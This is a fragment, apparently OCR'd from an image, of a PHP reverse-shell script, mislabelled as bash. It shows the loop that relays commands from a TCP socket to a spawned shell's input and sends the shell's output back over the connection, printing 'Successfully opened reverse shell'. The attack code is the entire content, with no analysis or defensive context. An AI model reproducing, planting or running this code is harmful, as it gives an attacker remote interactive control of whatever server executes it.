 ```bash
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
```